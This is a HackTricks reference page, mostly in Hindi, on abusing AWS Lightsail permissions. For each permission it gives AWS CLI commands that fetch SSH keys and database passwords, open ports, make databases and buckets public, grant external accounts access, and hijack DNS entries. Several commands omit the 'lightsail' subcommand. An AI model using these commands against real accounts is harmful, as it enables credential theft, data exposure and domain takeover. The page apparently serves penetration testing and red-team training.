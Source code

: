 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
यह ध्यान रखना महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के IAM भूमिकाओं का उपयोग नहीं करता** बल्कि एक AWS प्रबंधित खाते का उपयोग करता है, इसलिए आप इस सेवा का दुरुपयोग करके प्रिवेस्क नहीं कर सकते। हालाँकि, **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस जानकारी इस सेवा में मिल सकती है।
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

यह अनुमति आपको उदाहरणों तक पहुँचने के लिए SSH कुंजी प्राप्त करने की अनुमति देगी:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंस तक पहुँचने के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुँचने के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बकेट के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए क्रेडेंशियल प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए पासवर्ड बदलने की अनुमति देगी:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

यदि डेटाबेस सार्वजनिक नहीं है, तो आप इसे इस अनुमति के साथ सार्वजनिक भी बना सकते हैं

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि कॉल किसी भी पोर्ट को बंद कर देगी जो इसमें निर्दिष्ट नहीं है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति एक इंस्टेंस को बिना किसी अतिरिक्त क्रेडेंशियल के एक बकेट तक पहुँच देने की अनुमति देती है।

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुँच।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने AWS खाते को बकेट्स पर पढ़ने की पहुँच दे सकता है या यहां तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateContainerService`

इन अनुमतियों के साथ, एक हमलावर कंटेनर सेवा से निजी ECRs तक पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन का अधिग्रहण

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन पर कब्जा

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
